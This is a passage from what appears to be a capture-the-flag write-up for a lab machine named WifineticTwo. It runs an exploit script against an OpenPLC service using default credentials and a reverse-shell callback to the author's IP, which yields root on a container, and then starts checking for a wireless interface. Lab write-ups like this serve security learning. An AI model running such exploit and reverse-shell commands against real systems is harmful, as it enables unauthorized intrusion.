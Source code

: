 So now we run the exploit with the following parameters

```bash
python3 exploit.py -u http://10.10.11.7:8080 -l openplc -p openplc -i 10.10.16.98 -r 443
```

Then after a few moments we'd get a connection back to our own machine as the root user on this container.

![Reverse shell](/assets/img/WifineticTwo/WifineticTwo_03.png)


## Lateral movement through Wifi

Seeing the name of the box i was already assuming that this box had something to do with wifi exploitation. My first step was to check if there was a wireless interface. With the following command i was able to confirm that there was indeed a wireless interface named **wlan0**

```bash
ifconfig
```

![Interface enum](/assets/img/WifineticTwo/WifineticTwo_04.png)
